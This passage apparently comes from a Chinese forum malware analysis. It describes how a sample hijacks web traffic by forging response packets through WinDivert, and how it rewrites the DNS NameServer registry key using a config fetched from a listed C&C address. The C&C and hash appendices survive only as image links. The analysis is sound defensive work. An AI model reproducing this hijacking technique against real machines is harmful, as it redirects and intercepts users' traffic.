iOXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

检查目标网页是否需要劫持：即符合第二种情况，请求包中 `Host` 是否符合 `lscheck.dat` 中被劫持网址规则。



[检测 Host 是否符合规则](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwNXxhZDVmYWY1ZHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

伪造回复包，发送至本地：如果符合规则，则会开始伪造回复包，将劫持后的网址放入回复包中，并将源 IP 设置为目标 IP，目标 IP 设置为源 IP，同时将目标端口设置为源端口，利用 `Windivert` 进行发送。



[构造回复包](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwNnw3NGRhYTUyN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

[设置 IP 和端口并发送](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwN3xiNzRjNDk2NnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

# DNS 劫持配置 `dncheck.dat`

通过修改注册表实现 DNS 劫持：下载 `121.199.27.15:31003/dncheck.dat`，获取 DNS 服务器 IP，随后写入至 `\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces\[GUID]\NameServer` 中，实现 DNS 劫持。

[设置 NameServer](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwOHxhOWFhNTQ2ZHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

[DNS 服务器地址与注册表的关系](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwOXw2ZWMzZjEzNXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

# 三、附录

## C&C

[C&C](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTExMHwyMTFjNDRiYXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

## HASH

[HASH](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTExMXxlMjYzNmIzNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
